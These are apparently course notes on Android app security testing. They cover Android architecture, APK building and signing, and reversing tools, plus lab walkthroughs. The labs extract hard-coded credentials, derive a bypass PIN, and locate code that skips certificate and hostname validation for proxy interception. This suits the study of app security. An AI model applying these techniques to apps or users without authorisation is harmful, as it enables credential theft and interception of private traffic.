# 📒Android

> #### 📕 Course Topics
>
> - Techniques include reverse engineering, static analysis, and dynamic analysis
>
> - Android application attack surface and vulnerability exploitation
>
>   - Android OS fundamentals
>   - APK Building process
>   - Testing environment
>
> - Attacking Android apps
>
>   - Reverse engineer APKs for information gathering
>   - Device rooting and understanding the entire attack surface
>   - Mobile application traffic analysis
>
> - Static analysis module
>
>   - Exploitation of SQL injection and Path traversal vulnerabilities
>   - Identification of vulnerable activities, receivers, services, and insecure shared preferences
>
> - Dynamic analysis module:
>
>   - ADB for live debugging and database interaction

------

## AOSP Architecture

- [Android Open System Platform (AOSP) Architecture](https://source.android.com/docs/core/architecture)


Each layer of the [Android operating system](https://developer.android.com/guide/platform) platform has a specialized set of functionalities.

- **System Applications** - core system apps (email, messaging, calendars, contacts, ...)
- **Java API Framework** - full feature-set of Android dedicated Java APIs
- **Native C/C++ Libraries** - required native C/C++ libraries for Android system components and low-level processes (`e.g.` ART, HAL)
- **Android Runtime** - virtual machines for each app (ART), core libraries (Java)
- **Hardware Abstraction Layer (HAL)** - provides interfaces to expose device hardware capabilities using multiple library modules
- **Linux Kernel** - hardware (drivers), memory, processes, power management



**Android virtual machines** are abstraction layers between an application and the Android device.

Android apps are written in `Java`, compiled into `DEV` (**D**alvik **EX**ecutable) [bytecode](https://source.android.com/docs/core/runtime/dalvik-bytecode). The Android VM runs the DEX bytecode directly compiled from the original Java. **ART** has more optimization features than the Dalvik VM.

- DEX, ODEX, OAT

Native code can be used as well, instead of Java code.



**Android Security Module** layers:

- UID Separation (installed apps isolated from one another)
- App's security layer

Each app has a specific **UID (User ID)** - identity of the app. The app can access only owned files.

The Android Application **Sandbox** restricts access to its data by using Linux permissions, allowing only the app itself, OS specific components or the `root` user to interact with it.

- implemented in the OS
- separation of files and code execution between apps
- each application runs a separate process under separate UID
- [SELinux](https://source.android.com/docs/security/features/selinux) was implemented with Android 5.0 - more secure than only UID Separation

`adb shell` to a rooted Android device and check the app's UID ownership:

```bash
adb shell

# In the adb shell change user to root
su
```

```bash
cd /data/data
ls -lah
ls -lahn

# Change user
su u0_a188
whoami
ls /data/data/com.android.chrome
```



- Permissions declared in the app's `AndroidManifest.xml` file can translate into Linux file system permissions. Check `/sdcard` permissions.

```bash
cd /sdcard
ls -lah
```



```bash
dumpsys package com.android.chrome | grep -i userId
```



------

## Test Environment - Android Studio

- [`Android Studio`](https://developer.android.com/studio/intro) IDE installation process
  - Use the [Download](https://developer.android.com/studio) page for the latest release

```bash
# Requirements install
sudo dpkg --add-architecture i386
sudo apt update -y
sudo apt install -y libc6:i386 libncurses5:i386 libstdc++6:i386 lib32z1 libbz2-1.0:i386

# Android Studio install
sudo wget https://redirector.gvt1.com/edgedl/android/studio/ide-zips/2023.1.1.26/android-studio-2023.1.1.26-linux.tar.gz -O /tmp/android-studio.tar.gz
sudo tar xvfz /tmp/android-studio.tar.gz -C /opt
sudo chmod +x /opt/android-studio/bin/*.sh
sudo rm -f /tmp/android-studio.tar.gz

# Run with:
cd /opt/android-studio/bin
./studio.sh

# Tools > Create Desktop Entry

# In case of Android Studio Internal Error at start, run these commands and reinstall it
sudo rm -rf ~/.android
sudo rm -rf ~/.AndroidStudio
```

During testing, one can utilize either an [emulated Android virtual device](https://developer.android.com/studio/run/emulator) or a physically rooted device.

- Android Studio can be used for testing and debugging over an ADB connection to a [real device](https://developer.android.com/studio/run/device).



> ❗️ Please be aware that the source code resources (from INE) for this course lab cannot be compiled in Android Studio due to the use of an outdated Gradle version, and upgrading is not feasible.
>
> 

---

## [Android Build Process](https://developer.android.com/build)

- Compilation, Packaging, Signing

### Compilation

1. **aapt** -> `R.java` + `.java` + `.aidl` + app source code
2. **Java Compiler** -> `.class`
3. **dex** -> `classes.dex` files
4. **apkbuilder** -> `.apk`
5. **Jarsigner** -> signed `.apk`
6. **zipalign** -> signed and aligned `.apk`



### Packaging - APK Structure

`.apk` is a compressed archive containing the app resources and code.

- [apktool](https://apktool.org/) - *A tool for reverse engineering Android apk files*

```bash
# use apktool to 
apktool d <app>.apk
```



`AndroidManifest.xml`

- `e.g.` [appbrain-sdk AndroidManifest example](https://github.com/swisscodemonkeys/appbrain-sdk/blob/master/example/AndroidManifest.xml)
  - app's name, components, security settings
  - attributes: `package`, `minSdkVersion`, `targetSdkVersion`, etc

```xml
# Old Version

<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.appbrain.example"
    android:versionCode="16"
    android:versionName="2.6" >

    <uses-sdk android:minSdkVersion="7" android:targetSdkVersion="17"/>
    <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />    

    <application
        android:icon="@drawable/ic_launcher"
        android:label="@string/app_name">
        <activity
            android:label="@string/app_name"
            android:name=".ExampleActivity">
            <intent-filter >
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
        
        <activity android:name=".BannerActivity"></activity>
        
		<!-- AppBrain AppLift SDK -->
		<activity android:configChanges="keyboard|keyboardHidden|orientation|screenLayout|uiMode|screenSize|smallestScreenSize" 
		    android:name="com.appbrain.AppBrainActivity" />
		<receiver android:exported="true" android:name="com.appbrain.ReferrerReceiver" >
		    <intent-filter>
		        <action android:name="com.android.vending.INSTALL_REFERRER" />
		    </intent-filter>
		</receiver>
		<service android:name="com.appbrain.AppBrainService" />
		<!--  End of AppLift SDK -->
    </application>
</manifest>
```

```xml
# New Version

<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.appbrain.example"
    android:versionCode="30"
    android:versionName="5.10" >

    <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />

    <application
        android:icon="@drawable/ic_launcher"
        android:label="@string/app_name"
        android:allowBackup="true">
        <activity
            android:label="@string/app_name"
            android:name=".ExampleActivity"
            android:exported="true">
            <intent-filter >
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>

        <activity android:name=".BannerActivity" />
        <activity android:name=".ListAdsActivity" />
	<!-- Necessary AppBrain SDK entries are imported through the aar from gradle -->
    </application>
</manifest>
```

`Classes.dex` - a file in that contains the compiled bytecode of the Java source code used by the app. 

`/assets` folder

- HTML, fonts, mp3, text, image files



`/lib` folder

- libraries and precompiled code
- Linux shared object `.so` files (dev/third-party libraries)
  - the execution of forged `.so` files results in arbitrary code execution



`/META-INF` folder

- app integrity and authenticity files
  - `CERT.RSA` - developer's signing certificate
  - `CERT.SF` - resources + hashes
  - `MANIFEST.MF` - resources and their SHA1



`/res` folder

- resources not compiled into the `resources.arsc` file



> While conducting an audit, be sure to review all source code files to assess their impact on the **security** of the application.

### Code Signing

The [APK **signing**](https://developer.android.com/studio/publish/app-signing.html) process is essential for maintaining the security, integrity, and trustworthiness of Android applications throughout their lifecycle, from development to distribution and updates.

- Validation of the identity of the author
- Ensure code integrity



- Developers create a keystore, containing cryptographic keys, specifying a private key for signing and a public key for verification - [`keytool`](https://docs.oracle.com/javase/10/tools/keytool.htm#JSWOR-GUID-5990A2E4-78E3-47B7-AE75-6D1826259549)

```bash
# keytool - Generate a private key
keytool -genkey -v -keystore test.keystore -alias testalias -keyalg RSA -keysize 2048 -validity 10000
```

- The developer uses the private key from the keystore to sign the APK - [`jarsigner`](https://docs.oracle.com/javase/8/docs/technotes/tools/windows/jarsigner.html)

```bash
# jarsigner
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore test.keystore test.apk testalias

# Check the signing status
jarsigner -verify -verbose -certs test.apk
```

- This process generates a digital signature for the APK, ensuring its integrity and verifying that it comes from a trusted source.

```bash
# e.g. take a file hash from MANIFEST.MF file and check if it matches the original file hash

openssl sha1 -binary res/file.png | openssl base64
```

- `e.g.` with the `CERT.RSA` file

```bash
# Convert DER to PEM - MSTG-Android-Java files
openssl pkcs7 -inform DER -print_certs -out cert.pem -in CERT.RSA
```



```bash
openssl x509 -in cert.pem -noout -text
```



`MANIFEST.MF` contains the hashes of the files themselves.

`CERT.SF` contains the hashes of the line of the `MANIFEST.MF`.

> 📌 Signing Private key must be protected to prevent compromise.

### [APK Alignment](https://developer.android.com/tools/zipalign)

The signed APK must be aligned to optimize its structure for efficient installation on Android devices and enhanced overall performance.

```bash
zipalign -v 4 test_unaligned.apk test.apk
```

---

## Reversing APKs

*Reversing APKs* refers to the process of decompiling, analyzing, and understanding the contents of a compiled application, from its original source code.

- Code understanding
- Security analysis
- App's logic
- Useful during **black-box** security assessment

### apktool

[`apktool`](https://apktool.org/) - *A tool for reverse engineering Android apk files.*

- Follow the [Install Guide](https://apktool.org/docs/install)

```bash
# Ensure Java is installed
java --version
```

```bash
sudo wget https://bitbucket.org/iBotPeaches/apktool/downloads/apktool_2.9.2.jar -O /usr/local/bin/apktool.jar
sudo wget https://raw.githubusercontent.com/iBotPeaches/Apktool/master/scripts/linux/apktool -O /usr/local/bin/apktool
sudo chmod +x /usr/local/bin/apktool*
```

```bash
apktool
Apktool 2.9.2 - a tool for reengineering Android apk files
with smali v3.0.3 and baksmali v3.0.3
Copyright 2010 Ryszard Wiśniewski <brut.alll@gmail.com>
Copyright 2010 Connor Tumbleson <connor.tumbleson@gmail.com>

usage: apktool
 -advance,--advanced   Print advanced information.
 -version,--version    Print the version.
usage: apktool if|install-framework [options] <framework.apk>
 -p,--frame-path <dir>   Store framework files into <dir>.
 -t,--tag <tag>          Tag frameworks using <tag>.
usage: apktool d[ecode] [options] <file_apk>
 -f,--force              Force delete destination directory.
 -o,--output <dir>       The name of folder that gets written. (default: apk.out)
 -p,--frame-path <dir>   Use framework files located in <dir>.
 -r,--no-res             Do not decode resources.
 -s,--no-src             Do not decode sources.
 -t,--frame-tag <tag>    Use framework files tagged by <tag>.
usage: apktool b[uild] [options] <app_path>
 -f,--force-all          Skip changes detection and build all files.
 -o,--output <dir>       The name of apk that gets written. (default: dist/name.apk)
 -p,--frame-path <dir>   Use framework files located in <dir>.

```

`e.g.` - decompile `example.apk`

```bash
apktool d example.apk
```



### dex2jar

[`dex2jar`](https://github.com/pxb1988/dex2jar) - *Tools to work with android .dex and java .class files.*

```bash
# Download .zip file from https://github.com/pxb1988/dex2jar/releases/
cd ~/tools
unzip dex-tools-v2.4.zip
```

- Convert `classes.dex` to `.jar` files 

```bash
cd dex-tools-v2.4
sh d2j-dex2jar.sh -f ~/path/to/apk_to_decompile.apk

sh ~/tools/dex-tools-v2.4/d2j-dex2jar.sh -f example.apk
# Outputs example-dex2jar.jar

# or
unzip example.apk
cd example/
sh ~/tools/dex-tools-v2.4/d2j-dex2jar.sh -f classes.dex
```

### JD-Gui

[`JD-Gui`](http://java-decompiler.github.io/) - *a standalone graphical utility that displays Java sources from CLASS files.*

- Another tool - [Procyon](https://github.com/mstrobel/procyon)

```bash
# Download JD-GUI .deb file and install it
sudo dpkg -i jd-gui-1.6.6.deb
```

`e.g.` - open and inspect `example-dex2jar.jar` into `JD-gui`

- `Save All Sources` to save all the decompiled files into a zip archive



### Smali / Backsmali

- Android bytecode is in `.dex` format, that can be converted/**disassembled** into the `smali` code (assembly language).
- `smali` is easier to understand than the bytecode.

[`smali/backsmali`](https://github.com/JesusFreke/smali) - *assembler/disassembler for the dex format used by dalvik, Android's Java VM implementation.*

- Disassemble an app with `backsmali`, modify it and reassemble it with `smali` (app must be signed again).

```bash
# Download smali/backsmali jars from https://bitbucket.org/JesusFreke/smali/downloads/

# Disassemble a .dex file
java -jar ~/tools/baksmali-2.5.2.jar d classes.dex
# check the "out" folder

# Assemble a directory containing smali code
java -jar ~/tools/smali-2.5.2.jar a source/
```



### Bytecode Viewer

[`Bytecode Viewer`](https://bytecodeviewer.com/) - *lightweight user-friendly Java/Android Bytecode Viewer, Decompiler & More.*

```bash
java -jar Bytecode-Viewer-2.11.2.jar
```



### jadx

[`jadx` / `jadx-gui`](https://github.com/skylot/jadx) - *Command line and GUI tools for producing Java source code from Android Dex and Apk files.*

> ***Main features:***
>
> - *decompile Dalvik bytecode to java classes from APK, dex, aar, aab and zip files*
> - *decode `AndroidManifest.xml` and other resources from `resources.arsc`*
> - *deobfuscator included*
>
> ***jadx-gui features:***
>
> - *view decompiled code with highlighted syntax*
> - *jump to declaration*
> - *find usage*
> - *full text search*
> - *smali debugger, check [wiki page](https://github.com/skylot/jadx/wiki/Smali-debugger) for setup and usage*

- Open the `.apk`



------

### 🧪 Practice Lab 1

`e.g.` - `LocatingSecrets` app debug

- `app-debug.apk` is inside the `/LocatingSecrets/app/build/outputs/apk/` directory

```bash
# Decode the APK
apktool d app-debug.apk
```

Check the `AndroidManifest.xml`



- `android.permission.INTERNET` is required - app contacts a remote server
- `Access` (MAIN activity - seen at app start), `Files` activities are used

```bash
# Convert APK to .jar file
sh ~/tools/dex-tools-v2.4/d2j-dex2jar.sh -f app-debug.apk -o out_LocatingSecrets.jar

# Open the .jar file with JD-GUI
```

- Or open the `app-debug.apk` with `Jadx-Gui`
  - `dex` code is being automatically decompiled to java classes (pay attention to the decompiled code)



- Opening `out_LocatingSecrets.jar`, `onCreate` method can be found with resource id of `R.layout.activity_access`
  - this id value can be found in the `R` file





- `res/layout/activity_access.xml` - these elements build the first activity interface



The `ACCESS` button calls the `access` method

- Gets and stores the input value into the code
- This value is called and sent to the `Files` activity



Open the `Files.class` file and analyze the `onCreate` method

- `username` and `password` are stored separately from the source code, in the `string` class
- check `res/values/strings.xml` for the 2 parameters values (hard-coded credentials)
- extra: using the `5v3f4g` string, will access more files





---

### 🧪 Practice Lab 2

`e.g.` - `BypassSecurityControls` app debug

- Review app's functionality, decode, decompile the app, extract critical information, identify how the PIN is calculated, access the restricted area

```bash
apktool d BypassSecurityControls.apk

sh ~/tools/dex-tools-v2.4/d2j-dex2jar.sh -f BypassSecurityControls.apk -o BypassSecurityControls.jar
# Open the .jar file with JD-GUI
```

`AndroidManifest.xml`



- `ELSApp` - main activity
- `Admin` - page accessible only with code
- `Verify` - insert the code here

`Verify.class` - `access` method



- `editText` - retrieve input
- `str1` - manipulated string
- `str3` - device ID, cut to 5 chars
- `str4` - user's value
- `str5` - value defined in the string Resources at `strings.xml`

At each iteration, the app appends to `str1` the char at position `i` of the strings `str3` and `str5`, in a sequence of pairs repeating 5 times.

The input string (`str4`) is compared with the manipulated string (`str1`). If they match, an activity is started for the `Admin` class.

`strings.xml` - find the `str5` value under the node `seed`

- check the value in the `res/values/strings.xml` - `5f247F`



```bash
# res/values/strings.xml
[...]
<string name="seed">5f247F</string>
```

At the fifth iteration of the `for` statement, `str1` will contain `5f247F`.

Access the Admin area using `5f247F` - not working on a physical device.

`tm.getDeviceID` is a number specific to the phone, `IMEI` / `MEID HEX`.

- (This method was **deprecated** in API level 26)



- `e.g.` In this case, using the first 5 chars of the IMEI (e.g. **35950**) and the **5f247F** string, the `str4` must be: `53f5294570` and the actual code only 5 chars long is not working since the used phone has no call permission and `getDeviceID` is not working.
- Since the `dev_id_complete = 0000000000` the actual working code is `50f02`



------

### Obfuscation

**Obfuscation** is the process of deliberately making source code difficult to understand or reverse engineer.

- **Minifying** code involves compressing and optimizing it by removing unnecessary elements like whitespace, comments, and unused code, enhancing efficiency and reducing the app size
- Obfuscation does not guarantee security against skilled reverser
- `e.g.` [ProGuard](https://developer.android.com/build/shrink-code) can alter class, field and method names assigning them meaningless values

```bash
android {
	buildTypes {
        getByName("release") {
            isMinifyEnabled = true
            isShrinkResources = true
            proguardFiles(
                getDefaultProguardFile("proguard-android-optimize.txt"),
                "proguard-rules.pro"
            )
        }
    }
```



```bash
apktool d example_obfuscated.apk

# Do not decode sources (classes.dex)
apktool d example_obfuscated.apk -s
```





### Hardware Optimization

**Hardware optimization** in mobile apps involves enhancing the utilization of a device's hardware resources to improve performance, efficiency and user experience.

- `.odex` (optimized dex) - specific to hw platform, for pre-installed apps

### OEM Apps

**OEM Apps** are pre-installed by the AOSP ROM, device manufacturer, cell phone provider.

- usually located in the `/system/app` directory and commonly run with `system` / `root` permissions

---

### 🧪 Practice Lab 3 - Reversing Applications

🔗 [AndroGoat App](https://github.com/satishpatnayak/AndroGoat)

Download [AndroGoat.apk](https://github.com/satishpatnayak/MyTest/blob/master/AndroGoat.apk) and open it with `Jadx-Gui`.

- In the `AndroidManifest.xml` file check
  - `android:exported="true"`
  - Activities
  - Permissions
  - Intents

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="1" android:versionName="1.0" package="owasp.sat.agoat">
    <uses-sdk android:minSdkVersion="18" android:targetSdkVersion="26"/>
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <application android:theme="@style/AppTheme" android:label="@string/app_name" android:icon="@mipmap/ic_launcher" android:debuggable="true" android:allowBackup="true" android:supportsRtl="true" android:networkSecurityConfig="@xml/network_security_config" android:roundIcon="@mipmap/ic_launcher_round">
        <activity android:name="owasp.sat.agoat.SplashActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <activity android:label="@string/app_name" android:name="owasp.sat.agoat.MainActivity"/>
        <activity android:label="@string/root" android:name="owasp.sat.agoat.RootDetectionActivity"/>
        <activity android:label="@string/logging" android:name="owasp.sat.agoat.InsecureLoggingActivity"/>
        <activity android:label="@string/xss" android:name="owasp.sat.agoat.XSSActivity"/>
        <activity android:label="@string/sqli" android:name="owasp.sat.agoat.SQLinjectionActivity"/>
        <activity android:label="@string/sp1" android:name="owasp.sat.agoat.InsecureStorageSharedPrefs"/>
        <activity android:label="@string/tempFile" android:name="owasp.sat.agoat.InsecureStorageTempActivity"/>
        <activity android:label="@string/activity" android:name="owasp.sat.agoat.AccessControlIssue1Activity"/>
        <activity android:label="@string/activity" android:name="owasp.sat.agoat.AccessControl1ViewActivity">
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <data android:scheme="androgoat" android:host="vulnapp"/>
            </intent-filter>
        </activity>
        <receiver android:name="owasp.sat.agoat.ShowDataReceiver" android:enabled="true" android:exported="true"/>
        <activity android:label="@string/hardcode" android:name="owasp.sat.agoat.HardCodeActivity"/>
        <activity android:label="@string/sql" android:name="owasp.sat.agoat.InsecureStorageSQLiteActivity"/>
        <activity android:label="@string/sp2" android:name="owasp.sat.agoat.InsecureStorageSharedPrefs1Activity"/>
        <activity android:label="@string/network" android:name="owasp.sat.agoat.TrafficActivity"/>
        <activity android:name="owasp.sat.agoat.ContentProviderActivity"/>
        <activity android:label="@string/emulator" android:name="owasp.sat.agoat.EmulatorDetectionActivity"/>
        <activity android:label="@string/sdCard" android:name="owasp.sat.agoat.InsecureStorageSDCardActivity"/>
        <activity android:label="@string/wbviewAccess" android:name="owasp.sat.agoat.InputValidationsWebViewURLActivity"/>
        <activity android:label="@string/oscmd" android:name="owasp.sat.agoat.InputValidationsOSCMDInjectionMain2Activity"/>
        <service android:name="owasp.sat.agoat.DownloadInvoiceService" android:enabled="true" android:exported="true"/>
        <activity android:label="@string/BinaryPatching" android:name="owasp.sat.agoat.BinaryPatchingActivity"/>
        <activity android:label="@string/clipboard" android:name="owasp.sat.agoat.ClipboardActivity"/>
        <activity android:label="@string/InsecureStorage" android:name="owasp.sat.agoat.InsecureStorageActivity"/>
        <activity android:label="@string/SideChannelLeakage" android:name="owasp.sat.agoat.SideChannelDataLeakageActivity"/>
        <activity android:label="@string/InputValidations" android:name="owasp.sat.agoat.InputValidationsActivity"/>
        <activity android:label="@string/dict" android:name="owasp.sat.agoat.KeyboardCacheActivity"/>
        <meta-data android:name="android.support.VERSION" android:value="26.1.0"/>
        <meta-data android:name="android.arch.lifecycle.VERSION" android:value="27.0.0-SNAPSHOT"/>
    </application>
</manifest>
```

- `classes.dex` is already decompiled from `dex` to `jar` by Jadx.
  - check some of the Java classes inside `owasp.sat.agoat`
  - check for hardcoded strings, misconfiguration, code vulnerabilities
  - use Search tool
  - methods (`onCreate`, `onReceive` etc)







- e.g. `ShowDataReceiver` class
  - The provided code snippet contains a BroadcastReceiver in Android named `ShowDataReceiver` that in the `AndroidManifest.xml` file has the attribute `android:exported="true"`, meaning that `ShowDataReceiver` is exported and can be invoked by other apps
  - The `Toast.makeText` method includes a hardcoded message that reveals sensitive information - exposed credentials in app's code.


```bash
# AndroidManifest.xml
<receiver android:name="owasp.sat.agoat.ShowDataReceiver" android:enabled="true" android:exported="true"/>
```

```java
package owasp.sat.agoat;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.widget.Toast;
import kotlin.Metadata;
import kotlin.jvm.internal.Intrinsics;

/* compiled from: ShowDataReceiver.kt */
@Metadata(bv = {1, 0, 3}, d1 = {"\u0000\u001e\n\u0002\u0018\u0002\n\u0002\u0018\u0002\n\u0002\b\u0002\n\u0002\u0010\u0002\n\u0000\n\u0002\u0018\u0002\n\u0000\n\u0002\u0018\u0002\n\u0000\u0018\u00002\u00020\u0001B\u0005¢\u0006\u0002\u0010\u0002J\u0018\u0010\u0003\u001a\u00020\u00042\u0006\u0010\u0005\u001a\u00020\u00062\u0006\u0010\u0007\u001a\u00020\bH\u0016¨\u0006\t"}, d2 = {"Lowasp/sat/agoat/ShowDataReceiver;", "Landroid/content/BroadcastReceiver;", "()V", "onReceive", "", "context", "Landroid/content/Context;", "intent", "Landroid/content/Intent;", "app_debug"}, k = 1, mv = {1, 1, 16})
/* loaded from: classes.dex */
public final class ShowDataReceiver extends BroadcastReceiver {
    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        Intrinsics.checkParameterIsNotNull(context, "context");
        Intrinsics.checkParameterIsNotNull(intent, "intent");
        Toast.makeText(context, "Username is CrazyUser, Password is CrazyPassword and Key is 123myKey456", 1).show();
    }
}
```



**SMALI Code Review**

- Download smali/backsmali jars from [https://bitbucket.org/JesusFreke/smali/downloads/](https://bitbucket.org/JesusFreke/smali/downloads/)

```bash
unzip AndroGoat.apk

# Disassemble a .dex file
java -jar ~/tools/baksmali-2.5.2.jar d classes.dex
# check the "out" folder
cd out/

code owasp/sat/agoat/ShowDataReceiver.smali

# Assemble a directory containing smali code
java -jar ~/tools/smali-2.5.2.jar a source/
```

1. **Class Definition:**
   - The class is defined as `Lowasp/sat/agoat/ShowDataReceiver` and extends `android/content/BroadcastReceiver`.
2. **Constructor:**
   - The constructor is defined to call the constructor of the superclass (`android/content/BroadcastReceiver`).
3. **`onReceive` Method:**
   - The `onReceive` method is implemented, which is invoked when the `BroadcastReceiver` receives a broadcast.
   - It takes two parameters: `context` (of type `Landroid/content/Context;`) and `intent` (of type `Landroid/content/Intent;`).
4. **Annotations:**
   - The Smali code includes metadata annotations (`Lkotlin/Metadata;`) generated from the Kotlin source code.
   - Annotations provide additional information about the Kotlin class, including its structure and methods.
5. **Toast Message:**
   - The `onReceive` method creates a Toast message displaying the hardcoded string "*Username is CrazyUser, Password is CrazyPassword and Key is 123myKey456*"
6. **Parameter Checking:**
   - Parameter checking is performed using the `Intrinsics.checkParameterIsNotNull` method to ensure that the `context` and `intent` parameters are not null.
7. **Initialization:**
   - The `onReceive` method initializes a Toast message and shows it using the `makeText` and `show` methods, respectively.

```bash
# SMALI #
# ShowDataReceiver.smali #

.class public final Lowasp/sat/agoat/ShowDataReceiver;
.super Landroid/content/BroadcastReceiver;
.source "ShowDataReceiver.kt"


# annotations
.annotation runtime Lkotlin/Metadata;
    bv = {
        0x1,
        0x0,
        0x3
    }
    d1 = {
        "\u0000\u001e\n\u0002\u0018\u0002\n\u0002\u0018\u0002\n\u0002\u0008\u0002\n\u0002\u0010\u0002\n\u0000\n\u0002\u0018\u0002\n\u0000\n\u0002\u0018\u0002\n\u0000\u0018\u00002\u00020\u0001B\u0005\u00a2\u0006\u0002\u0010\u0002J\u0018\u0010\u0003\u001a\u00020\u00042\u0006\u0010\u0005\u001a\u00020\u00062\u0006\u0010\u0007\u001a\u00020\u0008H\u0016\u00a8\u0006\t"
    }
    d2 = {
        "Lowasp/sat/agoat/ShowDataReceiver;",
        "Landroid/content/BroadcastReceiver;",
        "()V",
        "onReceive",
        "",
        "context",
        "Landroid/content/Context;",
        "intent",
        "Landroid/content/Intent;",
        "app_debug"
    }
    k = 0x1
    mv = {
        0x1,
        0x1,
        0x10
    }
.end annotation


# direct methods
.method public constructor <init>()V
    .registers 1

    .line 14
    invoke-direct {p0}, Landroid/content/BroadcastReceiver;-><init>()V

    return-void
.end method


# virtual methods
.method public onReceive(Landroid/content/Context;Landroid/content/Intent;)V
    .registers 5
    .param p1, "context"    # Landroid/content/Context;
    .param p2, "intent"    # Landroid/content/Intent;

    const-string v0, "context"

    invoke-static {p1, v0}, Lkotlin/jvm/internal/Intrinsics;->checkParameterIsNotNull(Ljava/lang/Object;Ljava/lang/String;)V

    const-string v0, "intent"

    invoke-static {p2, v0}, Lkotlin/jvm/internal/Intrinsics;->checkParameterIsNotNull(Ljava/lang/Object;Ljava/lang/String;)V

    .line 17
    const-string v0, "Username is CrazyUser, Password is CrazyPassword and Key is 123myKey456"

    check-cast v0, Ljava/lang/CharSequence;

    const/4 v1, 0x1

    invoke-static {p1, v0, v1}, Landroid/widget/Toast;->makeText(Landroid/content/Context;Ljava/lang/CharSequence;I)Landroid/widget/Toast;

    move-result-object v0

    invoke-virtual {v0}, Landroid/widget/Toast;->show()V

    .line 19
    return-void
.end method
```

---

## Network Traffic

**TLS** - All network requests from a mobile app should be using encryption, `HTTPS` (HTTP over TLS).

Good cryptography provides **confidentially**, **integrity** and **authenticity**.

- Authenticity provided by `x.509` (*a standard defining the format of public-key certificates*) certificates
- Established organizations digital identity - prevents Man-in-the-Middle attacks
- CSR ([Certificate Signing Request](https://en.wikipedia.org/wiki/Certificate_signing_request)) - an applicant sends a message (with the public key, identifying info and proof of authenticity) to the CA (Certificate Authority) of the PKI (public key infrastructure) in order to apply for a digital identify certificate. The CA verifies the real-world identity of the applicant.
  - The certificate validates the digital identity in the format of **DNS hostnames** ([CAA](https://en.wikipedia.org/wiki/DNS_Certification_Authority_Authorization)).
  - With new the signed certificate, the applicant can present it to its software clients requesting identity verification
  - A Certificate Authority (CA) is a reliable third party. Each application maintains a list of authorities linking CAs to their unique public keys, dedicated solely for the purpose of certificate signing.
- Validation
  - Identity stated in the certificate has to match the DNS hostname requested (wildcard match, etc), checked via Subject's `Common Name`
  - Verify proper certificate signing by CA in the trusted CA list
  - Period of Validity

Testing environment servers might lack valid certificates for the testing domains; however, this insecure configuration should not be deployed to the public or production environment.

- Applications lacking proper certificate validation expose users to vulnerabilities. To exploit network weaknesses, an attacker positioned between the user and the site being accessed often manipulates ARP or DNS responses, causing traffic to be routed through the attacker's network.
- Lack of hostname validation can be exploited by the attacker with a certificate signed by a CA trusted by the device
- If case of CA not validated, the attacker can make and sign his own certificate

From the static analysis we can check when developers disable certificate validation, e.g. :

- Creating an `X509TrustManager` that trust all certificates (invalid too)



- Creating an insecure `HostNameVerifier` allowing all hostnames

### Proxy

> 🔗 [BurpSuite](https://portswigger.net/burp)
>
> 🔗 [Zaproxy](https://www.zaproxy.org/)

- Device - Manual proxy configuration on the device is necessary, to get the traffic through a pentester's proxy.
- Host - configure the Proxy Listener to accept connections from on all the interfaces (not just the loopback `127.0.0.1`).



The host and the device must be on the same network and able to communicate with each other.

- To intercept HTTPS traffic using BurpSuite, the proxy's (`e.g.` BurpSuite "Portswigger CA") certificate must be trusted by the device (copy it to device and install from local storage)
- Once the certificate is installed, HTTPS traffic is visible in the proxy (without certificate pinning implemented)
- ❗️ User installed CAs (proxy's certificate for example) are no longer trusted by default for apps with [API Level](https://portswigger.net/burp) 24+ (Android 7.0+)
- [Network Security Config](https://developer.android.com/privacy-and-security/security-config) can be used to customize the app's network security settings, and trust a custom set of CAs, implement certificate pinning, cleartext traffic opt-out, etc :
  - Decode the app (`apktool`)
  - Add `network_security_config.xml` to `res/xml` app's folder
  - Add the non-public/self-signed CA certificate (PEM or DER format), to `res/raw/certname` app's folder
  - Repackage and sign the app

---

### 🧪 Practice Lab 4

**Objectives**

- Understand and reproduce common certificate validation vulnerabilities
- Reverse apps and locate certificate validation vulns in the source code

Install the app.

```bash
adb install com.outlook.apk
adb install com.ubercab
```

Capture network traffic with a proxy (Zaproxy, BurpSuite).

- `com.outlook.apk` - HTTPS traffic visible, Outlook is trusting all certificates.
  - 📌 even with a *CA-signed certificate with a specific hostname* or without a trusted certificate installed, this vulnerable Outlook app **does not perform any kind of hostname validation or trusted CA check**



- `com.ubercab` - HTTPS traffic not captured and app errors "*Network error*"

Decode and decompile the apps.

```bash
apktool d com.outlook.apk
apktool d com.ubercab.apk
```

📌 Open `com.outlook.apk` with `Jadx-GUI`

Check for `HostNameVerifier` misconfiguration.

- Search for `ALLOW_ALL` and check the `Connectivity` class



- This insecure             `aVar.setHostnameVerifier(SSLSocketFactory.ALLOW_ALL_HOSTNAME_VERIFIER);` implementation is the cause of the ***certificate validation vulnerability***

- Search for `com.microsoft.live.AuthorizationRequest` Class



```java
public void onReceivedSslError(WebView view, SslErrorHandler handler, SslError error) {
    OAuthDialog.this.setLiveSdkProvProgressStatus(false);
    handler.proceed();
}
```

- This code is part of a WebView implementation, specifically within the `onReceivedSslError` method. This method is typically called when there is an SSL error during the loading of a web page over HTTPS. The SSL error is being ignored by calling `handler.proceed()` without any further checks or validations, and this might allow the WebView to continue loading the page despite SSL errors.

